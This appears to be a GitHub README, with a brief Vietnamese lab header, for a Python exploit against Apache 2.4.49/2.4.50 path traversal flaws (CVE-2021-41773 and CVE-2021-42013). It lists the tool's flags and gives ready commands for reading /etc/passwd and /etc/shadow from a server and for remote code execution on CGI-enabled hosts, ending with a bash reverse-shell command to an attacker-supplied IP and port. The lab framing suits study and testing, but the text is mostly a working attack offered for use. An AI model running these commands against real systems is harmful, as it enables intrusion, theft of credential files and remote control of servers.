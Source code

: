 # Mục tiêu: Services scan. Khai thác lỗi đối với các services cũ. Đọc /etc/passwd của server bị lỗi

# Lab
```
python3 exploit.py --ip xxx.xxx.255.76 --port 8080 -v --path "/etc/passwd" 
```
[tools](./exploit.py)
[output](./apache_exploit_output_nocgi.txt)
# Apache Path Traversal Exploit

This exploit is based on a few CVE vulnerabilities affecting Apache 2.4.49. We use URL-encoded characters to access certain files or otherwise restricted resources on the server. Possible RCE on certain systems as well.

## Affected CVEs
1. CVE-2021-41773

    A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.

2. CVE-2021-42013

    It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue only affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.

## Usage
```bash
$ python3 exploit.py -h

--cgi       Use if Apache server has CGI enabled
--port      Port the Apache server is listening on (Default: 8080)
--path      Path to the file on the Apache server to output (Default: /etc/passwd)
--ip        The website or IP address where the Apache server is hosted (Default: localhost)
-v          Increases verbosity
-s          Special exploit for Apache v2.4.50
--rce       Offers the ability to run Remote Code Execution on CGI-enabled servers
--cmd       Used in conjunction with --rce to run Remote Code Execution on the server (Default: whoami)
```

### Full example against a cgi-enabled server running on localhost:8000
```bash
$ python3 exploit.py --cgi --port 8000 --path "/etc/shadow"
```

### Bonus
Little bonus exploit for Apache v2.4.50 by using `-s` like this (cgi or non-cgi both work):
```bash
$ python3 exploit.py --port 8000 --path "/etc/passwd" -s
```

### More Examples
Made a third section just to show off my personal favorite command for the script against a cgi-enabled server running v2.4.50:
```bash
$ python3 exploit.py --ip <IP_ADDRESS> --port <PORT> --cgi --vs --path "/etc/shadow"
```

NOTE: If running `--rce`, the `-s` option is not required when trying to exploit v2.4.50!

Here is an RCE example (This should work on v2.4.49 or v2.4.50):
```bash
# In this scenario, we can run any command that'll run on Linux - This does actually open a reverse shell, so you'll need netcat or something similar
$ python3 exploit.py --ip <IP_ADDRESS> --port <PORT> --cgi -v --rce --cmd "bash -i >& /dev/tcp/<IP_ADRESS>/<PORT> 0>&1"
```